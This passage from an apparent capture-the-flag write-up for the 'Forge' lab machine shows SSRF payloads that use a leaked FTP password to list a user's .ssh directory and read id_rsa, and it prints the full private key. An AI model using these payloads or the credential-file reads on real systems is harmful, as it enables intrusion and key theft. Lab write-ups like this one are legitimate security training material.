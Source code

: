 Check if .ssh exists in the directory.

Payload:

	http://admin.Forge.htb/upload?u=ftp://user:heightofsecurity123!@Forge.htb/.ssh/

Result:
```bash
$curl http://forge.htb/uploads/1RN85YdwkQs5T56S2Gvx
-rw-------    1 1000     1000          564 May 31  2021 authorized_keys
-rw-------    1 1000     1000         2590 May 20  2021 id_rsa
-rw-------    1 1000     1000          564 May 20  2021 id_rsa.pub
```

It does, so I read the key

Payload:

	http://admin.Forge.htb/upload?u=ftp://user:heightofsecurity123!@Forge.htb/.ssh/id_rsa

Result:
```bash
$curl http://forge.htb/uploads/vpvXtZ8Zg23TzGCNcRal
-----BEGIN OPENSSH PRIVATE KEY-----
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
shlLupso7WoS0AAAAKdXNlckBmb3JnZQE=
-----END OPENSSH PRIVATE KEY-----
```
